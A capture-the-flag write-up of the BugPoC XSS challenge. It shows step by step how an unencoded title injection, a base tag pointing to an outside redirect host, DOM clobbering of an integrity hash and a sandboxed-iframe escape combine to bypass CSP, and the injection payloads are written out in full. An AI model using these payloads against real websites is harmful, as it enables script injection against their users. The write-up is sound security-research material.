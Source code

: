 # BugPoC XSS Challenge
[Announcement on HackerOne](https://hackerone.com/bugpoc/updates) *(04.11.20 - 09.11.20)*
```
Rules
1. You must alert(origin) showing https://wacky.buggywebsite.com
2. You must bypass CSP
3. It must be reproducible using the latest version of Chrome
4. You must provide a working proof-of-concept on bugpoc.com
```
## Introduction
This blog post will describe how I solved the XSS challenge by BugPoc. As always when enumerating webpages, we should use an interception proxy to  keep track of all the requests. I will use `Burp Suite` to intercept requests and the `FoxyProxy` plugin to configure the browser's proxy settings. As written in the rules, we need to use the actual version of the `Chrome Browser`.

## Enumeration
The target is `https://wacky.buggywebsite.com`, which looks like this.

![Website https://wacky.buggywebsite.com](./pictures/bugpoc-xss/defaultwacky.png)

When first visiting the website and redirecting the traffic through Burp, the following requests get captured.

![First Requests while loading the website](./pictures/bugpoc-xss/firstrequests.png)

One of the first things I recognized is, that when clicking at `Make Whacky!` I don't see any additional requests in Burp. Everything will be loaded from cache. Only when changing the content of the text box to a new value, a new request will be send to the server. When testing for xss and entering some special characters into the textbox, everything gets deleted instantly. So I checked the `/script.js` next. 

![script.js](./pictures/bugpoc-xss/scriptjs.png)

The first part of the script checks if the chrome browser is used. The second part will remove all special characters after a key was pressed and the last part will create the request, when pressing the button. 

To check for xss I entered something to the textbox, clicked the button and intercepted the request. I changed the value of `param` to a default xss value like `<script>alert()</script>` and url encoded it.

![Interception of a request in Burp](./pictures/bugpoc-xss/firstintercept.png)

Of course I didn't get an alert afterwards, but let's look at the results. The website is displaying it as default text only.

![Injected XSS string](./pictures/bugpoc-xss/scriptwacky.png)

Let's take a closer look to the response in Burp. We see our code in two places of the response.

![Script in Title Tags](./pictures/bugpoc-xss/scriptintitle.png) ![Script in Textbox](./pictures/bugpoc-xss/scriptintextbox.png) 

The second part got encoded and will be displayed in the website, which won't help, but the first part is interesting. I wrote inside the `<title>` tag and it's not html encoded. There is also the `content-security-policy`, which is explained [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy). It allowes scripts with a valid `nonce` only, which will be generated randomly by every request. 

I googled for ways to bypass the CSP or the nonce and came up whith the `<base>` tag. (Later I found a very easy way to check the CSP for weak configurations. [CSP Evaluator](https://csp-evaluator.withgoogle.com/)) The `base-uri` sets allowed urls and block everything else, but it's not set inside the CSP. It's possible to set a [base](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base) inside the HTML code, which will be used for all scripts with relative paths and luckily there is one in the source code.

![Script with relative path](./pictures/bugpoc-xss/scriptrelativepath.png)

The script uses the relative path `files/analytics/js/frame-analytics.js`, which prints some information to the console log in Chrome.

![Script frame-analytics.js](./pictures/bugpoc-xss/frame-analyticsjs.png)

I tried to redirect the script to my own domain by setting up an `Mock Endpoint` on [BugPoc](https://bugpoc.com/) and an `Redirection URL`, which points to the enpoint. It didn't work without the redirection because the script will load with the base url and the relative path, which won't work with the endpoint. The redirection url will catch the call to the url and redirect it to our endpoint. Back to the xss... 

## Exploit

First the title tag needs to be closed. After that the base tag can be injected, which will change the path of the script. This results in the following code: 
```
</title><base href="https://qbxfs9wso8pi.redir.bugpoc.ninja/">
```
When intercepting the request with Burp and changing the value of param I got the following result.

![Script got redirected](./pictures/bugpoc-xss/redirectedbutblocked.png)

The script was successfully redirected, but blocked because of a wrong file integrity hash. I needed to bypass that file integrity... 
```
window.fileIntegrity = window.fileIntegrity || {
    'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
    'algorithm' : 'sha256',
    'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
    'creationtime' : 1602687229
}
// verify we are in an iframe
if (window.name == 'iframe') {
    
    // securely load the frame analytics code
    if (fileIntegrity.value) {
			
        // create a sandboxed iframe
        analyticsFrame = document.createElement('iframe');
        analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
        analyticsFrame.setAttribute('class', 'invisible');
        document.body.appendChild(analyticsFrame);

        // securely add the analytics code into iframe
        script = document.createElement('script');
        script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
        script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
        script.setAttribute('crossorigin', 'anonymous');
        analyticsFrame.contentDocument.body.appendChild(script);
    }
```
After carefully analyzing the code I recognized the difference in `window.fileIntegrity` and `fileIntegrity.value`. It's possible to use it in both ways.

I could set a new FileIntegrity.value by adding an object with the same name. This type of vulnerability is called [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering). I changed the script on the `Mock Endpoint` and created a new redirection url.

![First Mock Endpoint](./pictures/bugpoc-xss/mockendpointfirst.png)
![First Redirection URL](./pictures/bugpoc-xss/redirectorfirst.png)

The hash can be calculated easily, which can be found [here](https://w3c.github.io/webappsec-subresource-integrity/#integrity-metadata-description). I downloaded my script by following my redirection url and used the following command to calculate the hash.
```
cat exploit.js | openssl dgst -sha256 -binary | openssl base64 -A
```
This resulted in the following xss:
```
</title><base href="https://zmcckylbygi1.redir.bugpoc.ninja/"><input type="hidden" id="fileIntegrity" value="9a8YfL2BJMHZ6DfMuqE+tymKOGihIn6qdm3OpwrXjN0=">
```
![Successfully injected the hash](./pictures/bugpoc-xss/redirectedbutnoalert.png)

I successfully injected the hash but I couldn't execute an alert message, which is part of the rules. 
```
// create a sandboxed iframe
analyticsFrame = document.createElement('iframe');
analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
analyticsFrame.setAttribute('class', 'invisible');
document.body.appendChild(analyticsFrame);
```
The script loads inside of an iframe with the sandbox [attribute](https://www.w3schools.com/tags/att_iframe_sandbox.asp). But there are also the attributes allow-scripts and allow-same-origin, which can be abused. I found [this article](https://danieldusek.com/escaping-improperly-sandboxed-iframes.html) about escaping from sandboxed iframes. The `window.parent` [property](https://developer.mozilla.org/en-US/docs/Web/API/Window/parent) is a reference to the parent window and can be used to create objects outside of the iframe. 

At this point I made it much more difficult. Somehow I decided to create a new iframe on the website and attach a new script to it instead of just creating the alert. This can easily be done by `window.parent.alert(origin);` instead of `window.alert(origin)`. [0xTyrox](https://twitter.com/0xtyrox) drew my attention on this afterwards. Just changing the sandbox property of the iframe won't work. The browser will still block the content and ignore the change.

After changing the hosted script and recalculating the hash I ran the xss again. 

![Successfull XSS](./pictures/bugpoc-xss/xssalert.png)
![Successfull XSS](./pictures/bugpoc-xss/xssalert2.png)

## Proof of Concept
There was one last part that I needed to bypass. It was part of the rules to provide a working poc on BugPoc where I can't intercept requests by Burp. When making a request to `https://wacky.buggywebsite.com/frame.html?param=abc` directly, I got a different result.

![Error when accessing the URL](./pictures/bugpoc-xss/failureframe.png)

The script includes a check if the current window is named `iframe`.
```
if (window.name == 'iframe') {
    
    // securely load the frame analytics code
    if (fileIntegrity.value) {
        [...]
    }

} else {
    document.body.innerHTML = `
    <h1>Error</h1>
    <h2>This page can only be viewed from an iframe.</h2>
    <video width="400" controls>
        <source src="movie.mp4" type="video/mp4">
    </video>`
}
```	
So why not changing the value of `window.name` before visiting the website? It will stay the same when changing to a different website.
```
window.name = "iframe";
```
And finally a fully working exploit.

### You can run my proof of concept on BugPoC:
> [BugPoc XXS Challenge - XSS on wacky.buggywebsite.com](https://bugpoc.com/poc#bp-7qAf5r2T) 

> Password: `giGgLYbonObo95`

Maybe you also wanna take a look at [0xTyrox's](https://tyrox.blog) Writeup.
